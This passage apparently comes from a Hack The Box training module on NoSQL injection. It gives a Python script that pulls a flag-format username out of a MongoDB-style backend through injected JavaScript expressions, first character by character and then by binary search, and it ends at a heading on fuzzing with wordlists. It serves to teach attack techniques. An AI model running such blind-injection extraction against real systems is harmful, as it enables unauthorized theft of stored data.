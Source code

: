 ```python
i = 4 # Set i to 4 to skip the first 4 chars (HTB{)
while username[-1] != "}": # Repeat until we dump '}' (known end of username)
    for c in range(32, 128): # Loop through all printable ASCII chars
        if oracle('this.username.startsWith("HTB{") && this.username.charCodeAt(%d) == %d' % (i, c)):
            username += chr(c) # Append current char to the username if it expression evaluates as True
            break # And break the loop
    i += 1 # Increment the index counter
assert (oracle('this.username == `%s`' % username) == True) # Verify the username
print("---- Regular search ----")
print("Username: %s" % username)
print("Requests: %d" % num_req)
print()

# Dump the username (binary search)
num_req = 0 # Reset the request counter
username = "HTB{" # Known beginning of username
i = 4 # Skip the first 4 characters (HTB{)
while username[-1] != "}": # Repeat until we meet '}' aka end of username
    low = 32 # Set low value of search area (' ')
    high = 127 # Set high value of search area ('~')
    mid = 0
    while low <= high:
        mid = (high + low) // 2 # Caluclate the midpoint of the search area
        if oracle('this.username.startsWith("HTB{") && this.username.charCodeAt(%d) > %d' % (i, mid)):
            low = mid + 1 # If ASCII value of username at index 'i' < midpoint, increase the lower boundary and repeat
        elif oracle('this.username.startsWith("HTB{") && this.username.charCodeAt(%d) < %d' % (i, mid)):
            high = mid - 1 # If ASCII value of username at index 'i' > midpoint, decrease the upper boundary and repeat
        else:
            username += chr(mid) # If ASCII value is neither higher or lower than the midpoint we found the target value
            break # Break out of the loop
    i += 1 # Increment the index counter (start work on the next character)
assert (oracle('this.username == `%s`' % username) == True)
print("---- Binary search ----")
print("Username: %s" % username)
print("Requests: %d" % num_req)

```


# Tools of the Trade

* * *

## Fuzzing with Wordlists
